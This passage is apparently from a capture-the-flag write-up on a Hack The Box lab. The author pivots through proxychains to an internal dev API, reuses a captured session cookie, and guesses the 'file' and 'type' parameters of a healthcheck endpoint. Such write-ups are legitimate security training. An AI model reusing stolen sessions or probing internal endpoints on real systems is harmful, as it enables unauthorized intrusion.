 It wants auth. That suggests there is something more it can do.

I’ll grab the cookie out of my authenticated session (on either the main site, or gary’s creds work on dev as well - the two pages must share the same JWT signing secret), and add that to the `curl` command:

```

oxdf@hacky$ proxychains curl -X POST -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.11.184:80  ...  OK
ERROR - missing parameter

```

#### Find Parameters

The error message says it needs a parameter. I could try to fuzz this, I’ll start with an educated guess based on what I know. This took a bit of guesswork, as adding either on it’s own didn’t change the “ERROR - missing parameter” message, but with both `file` and `type` it works:

```

oxdf@hacky$ proxychains curl -d "file=/bin/bash&type=ELF" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck | jq .
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.11.184:80  ...  OK
{
  "result": true,
  "results": [
    {
      "file": "/bin/bash",
      "pattern": {
        "type": "ELF"
      }
    }
  ]
}

```

#### Type

Sending `file=/bin/bash&type=ELF` returns a result of `true`. Changing `type` to `PYTHON`, `result` changes to `false` (I’ll snip out the `proxychains` message for readability from here on):

```

oxdf@hacky$ proxychains curl -X POST -d "file=/bin/bash&type=ELF" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck | jq '.result'
true
oxdf@hacky$ proxychains curl -d "file=/bin/bash&type=PYTHON" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck | jq '.result'
false

```
